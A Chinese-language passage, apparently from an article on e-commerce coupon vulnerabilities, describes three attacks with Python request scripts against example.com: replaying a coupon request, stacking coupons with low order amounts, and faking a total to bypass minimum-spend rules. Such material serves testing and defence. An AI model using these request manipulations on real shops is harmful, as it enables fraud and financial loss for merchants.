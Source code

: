 
## 3. 技术细节与攻击向量

### 3.1 重复使用漏洞
#### 攻击向量
- 攻击者通过抓包工具捕获优惠券使用请求，多次重放同一请求。
- 攻击者通过脚本自动化提交优惠券。

#### 代码示例
```python
import requests

coupon_code = "DISCOUNT123"
url = "https://example.com/apply_coupon"
data = {"coupon_code": coupon_code}

for _ in range(10):
    response = requests.post(url, data=data)
    print(response.text)
```

### 3.2 金额计算漏洞
#### 攻击向量
- 攻击者通过修改请求参数，将订单金额设置为极低值，利用叠加优惠获取超额折扣。
- 攻击者通过构造特定商品组合，触发计算逻辑错误。

#### 代码示例
```python
import requests

url = "https://example.com/checkout"
data = {
    "items": [{"id": 1, "price": 100}, {"id": 2, "price": 200}],
    "coupons": ["DISCOUNT50", "FREESHIPPING"]
}

response = requests.post(url, json=data)
print(response.json())
```

### 3.3 条件绕过漏洞
#### 攻击向量
- 攻击者通过修改请求参数，绕过最低消费金额或特定商品类别限制。
- 攻击者通过伪造用户信息，满足优惠券使用条件。

#### 代码示例
```python
import requests

url = "https://example.com/apply_coupon"
data = {"coupon_code": "MIN100", "total_amount": 50}

# 修改total_amount为100以上
data["total_amount"] = 150

response = requests.post(url, data=data)
print(response.text)
```
